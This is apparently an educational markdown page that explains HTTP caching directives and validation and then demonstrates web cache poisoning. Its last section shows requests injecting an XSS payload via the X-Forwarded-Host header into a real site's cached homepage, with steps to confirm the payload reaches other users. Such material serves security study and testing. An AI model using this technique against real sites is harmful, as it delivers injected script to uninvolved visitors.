


# Web Cache Poisoning

## Summary

- [HTTP Caching](#http-caching)
    - [Private Browser Caches](#private-browser-caches)
    - [Shared Proxy Caches](#shared-proxy-caches)
    - [Targets of Caching Operations](#targets-of-caching-operations)
        - [Varying Responses](#varying-responses)
    - [Cache Control](#cache-control)
        - [No Caching](#no-caching)
        - [Cache But Revalidate](#cache-but-revalidate)
        - [Public Cache](#public-cache)
        - [Private Cache](#private-cache)
        - [Expiration](#expiration)
        - [Validation](#validation)
    - [Cache Validation](#cache-validation)
        - [ETag](#etag)
    - [Freshness](#freshness)
- [Cache Poisoning](#cache-poisoning)
    - [Basic Poisoning](#basic-poisoning)
- [References](#references)

## HTTP Caching

Caching is a technique that stores a copy of a given resource and serves it back when requested. When a web cache has a
 requested resource in its store, it intercepts the request and returns its copy instead of re-downloading from the
 originating server. 


This achieves several goals: 
- Server load reduction (the server doesn't have to serve all clients itself),
- Improve performance (it takes less time to transmit the resource back). 

On the other side, it has to be configured properly as not all resources stay identical forever: it is important to 
 cache a resource only until it changes, not longer.

### Private Browser Caches

A private cache is dedicated to a single user. A browser cache holds all documents downloaded via HTTP by the user.
 This cache is used to make visited documents available for back/forward navigation, saving, viewing-as-source, etc.
 without requiring an additional trip to the server. It likewise improves offline browsing of cached content.



### Shared Proxy Caches

A shared cache is a cache that stores responses to be reused by more than one user. For example, an ISP or your company
 might have set up a web proxy as part of its local network infrastructure to serve many users so that popular resources
 are reused a number of times, reducing network traffic and latency.



### Targets of Caching Operations

Common HTTP caches are typically limited to caching responses to GET and may decline other methods.

The primary cache keys:
- Request method,
- Target URI.

Common forms of caching entries are:

- Successful results of a retrieval request: a `200 OK` response to a GET request containing a resource like HTML documents,
 images or files,
- Permanent redirects: a `301 Moved Permanently` response,
- Error responses: a `404 Not Found` result page,
- Incomplete results: a `206 Partial Content` response,
- Responses other than GET if something suitable for use as a cache key is defined.

#### Varying Responses

A cache entry might also consist of multiple stored responses differentiated by a secondary key, if the request is target
 of content negotiation.

The [Vary](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Vary) HTTP response header determines how to match
 future request headers to decide whether a cached response can be used rather than requesting a fresh one from the
 origin server.

When a cache receives a request that can be satisfied by a cached response that has a `Vary` header field, it must not
 use that cached response unless all header fields as nominated by the `Vary` header match in both the original (cached)
 request and the new request.

### Cache Control

The `Cache-Control` (HTTP/1.1) general-header field is used to specify directives for caching mechanisms in both
 requests and responses. Caching directives are unidirectional, meaning that a given directive in a request is not
 implying that the same directive is to be given in the response.

The [Pragma](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Pragma) (HTTP/1.0) header does behave the same 
 as `Cache-Control: no-cache`, if the `Cache-Control` header field is omitted in a request. Use Pragma only for
 backwards compatibility with HTTP/1.0 clients.

#### No Caching

```http request
Cache-Control: no-store
```

The cache should not store anything about the client request or server response. A request is sent to the server and a 
 full response is downloaded each and every time.

#### Cache But Revalidate

```http request
Cache-Control: no-cache
```

A cache will send the request to the origin server for validation before releasing a cached copy.

See: [Cache Validation](#cache-validation) section.

#### Public Cache

```http request
Cache-Control: public
```

The `public` directive indicates the response may be cached by any cache, even if the response would normally be 
 [non-cacheable](https://tools.ietf.org/id/draft-ietf-httpbis-cache-01.html#response.cacheability) (e.g. if the response
 does not contain a `max-age` directive or the `Expires` header).

#### Private Cache

```http request
Cache-Control: private
```

The `private` directive indicates that the response is intended for a single user only and must not be stored by a
 shared cache. A private browser cache may store the response in this case.

#### Expiration

```http request
Cache-Control: max-age=31536000
```

The `max-age` directive specify the maximum amount of time in seconds a resource will be considered fresh.

See: [Freshness](#freshness) section.

#### Validation

```http request
Cache-Control: must-revalidate
```

The `must-revalidate` directive indicates that the cache must verify the status of the stale resources before using it 
 and expired ones should not be used. 

See: [Cache Validation](#cache-validation) section.

### Cache Validation

When a cached document's expiration time has been reached, it is either validated or fetched again. Validation can only
 occur if the server provided either a 
 [strong validator](https://developer.mozilla.org/en-US/docs/Web/HTTP/Conditional_requests#Strong_validation) or a
 [weak validator](https://developer.mozilla.org/en-US/docs/Web/HTTP/Conditional_requests#Weak_validation).

Revalidation is triggered:
- If the user presses the reload button,
- If the cached response includes the `Cache-control: must-revalidate` header.

#### ETag

The [ETag](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/ETag) response header is an opaque-to-the-useragent
 value that can be used as a **strong** validator. That means that a HTTP user-agent, such as the browser, does not know what
 this string represents and can't predict what its value would be. If the `ETag` header was part of the response for a
 resource, the client can issue an [If-None-Match](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/If-None-Match)
 in the header of future requests – in order to validate the cached resource.

The [Last-Modified](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Last-Modified) response header can be used
 as a **weak** validator. It is considered weak because it only has 1-second resolution. If the `Last-Modified` header
 is present in a response, then the client can issue an
 [If-Modified-Since](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/If-Modified-Since) request header to
 validate the cached document.

When a validation request is made, the server can either ignore the validation request and response with a normal `200 OK`,
 or it can return `304 Not Modified` (with an empty body) to instruct the browser to use its cached copy.
 The latter response can also include headers that update the expiration time of the cached document.

### Freshness

Once a resource is stored in a cache, it could theoretically be served by the cache forever. Caches have finite storage
 so items are periodically removed from storage (cache eviction).
 
As HTTP is a client-server protocol, servers can't contact caches and clients when a resource changes, they have to
 communicate an expiration time for the resource. Before this expiration time, the resource is **fresh**, 
 after the expiration time, the resource is **stale**. Eviction algorithms often privilege fresh resources over stale
 resources. 

The freshness lifetime is calculated based on several headers:
1. If a `Cache-control: max-age=N` header is specified, then the freshness lifetime is equal to N,
2. Else if an [Expires](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Expires) header is specified, then the 
 freshness lifetime is equal to the value of `Expires` header minus the value of the
 [Date](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Date) header. 
3. Else if Last-Modified header is present, then the freshness lifetime is equal to the value of the `Date` header minus
 the value of the `Last-Modified` header divided by 10.

## Cache Poisoning

The objective of web cache poisoning is to send a request that causes a harmful response that gets saved in the cache
 and served to other users.


### Basic Poisoning

Let's take a look at Red Hat's homepage:

```http request
GET /en?cb=1 HTTP/1.1
Host: www.redhat.com
X-Forwarded-Host: canary

HTTP/1.1 200 OK
Cache-Control: public, no-cache
...
<meta property="og:image" content="https://canary/cms/social.png" />
```

Here the `X-Forwarded-Host` header has been used by the application to generate an Open Graph URL inside a meta tag.
 The next step is to explore whether it's exploitable – start with a simple XSS payload:

```http request
GET /en?dontpoisoneveryone=1 HTTP/1.1
Host: www.redhat.com
X-Forwarded-Host: a."><script>alert(1)</script>

HTTP/1.1 200 OK
Cache-Control: public, no-cache
...
<meta property="og:image" content="https://a."><script>alert(1)</script>"/> 
```

That response will execute arbitrary JavaScript against whoever views it. Don't let the `Cache Control: no-cache` header
 dissuade you – it's always better to attempt an attack than assume it won't work.

The final step is to check if this response has been stored in a cache so that it'll be delivered to other users.
 You can verify this first by sending the request without the malicious header, and then by fetching the URL directly
 in a browser on a different machine:

```http request
GET /en?dontpoisoneveryone=1 HTTP/1.1
Host: www.redhat.com

HTTP/1.1 200 OK
...
<meta property="og:image" content="https://a."><script>alert(1)</script>"/>
```

> More examples: [Practical Web Cache Poisoning](https://portswigger.net/research/practical-web-cache-poisoning)

## References

- [HTTP caching](https://developer.mozilla.org/en-US/docs/Web/HTTP/Caching)
- [Cache-Control](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cache-Control)
